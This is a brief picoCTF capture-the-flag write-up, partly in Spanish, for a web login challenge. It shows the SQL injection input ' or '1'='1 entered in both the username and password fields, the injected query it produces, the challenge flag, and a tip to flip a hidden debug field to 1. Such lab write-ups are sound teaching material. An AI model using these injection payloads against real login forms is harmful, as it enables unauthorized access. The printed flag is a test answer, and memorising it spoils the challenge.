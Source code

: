 
## Objetivo
There is a website running at `https://jupiter.challenges.picoctf.org/problem/39720/` ([link](https://jupiter.challenges.picoctf.org/problem/39720/)) or http://jupiter.challenges.picoctf.org:39720. Do you think you can log us in? Try to see if you can login!

## Solución
```
username: ' or '1'='1
password: ' or '1'='1
SQL query: SELECT * FROM users WHERE name='' or '1'='1' AND password='' or '1'='1'

# Logged in!

Your flag is: picoCTF{s0m3_SQL_c218b685}
y cambias esto por 1:
<input type="hidden" name="debug" value="0">
value por 1
```
## Notas adicionales
## Referencias 
https://developer.mozilla.org/en-US/docs/Web/HTML/Element/input/hidden
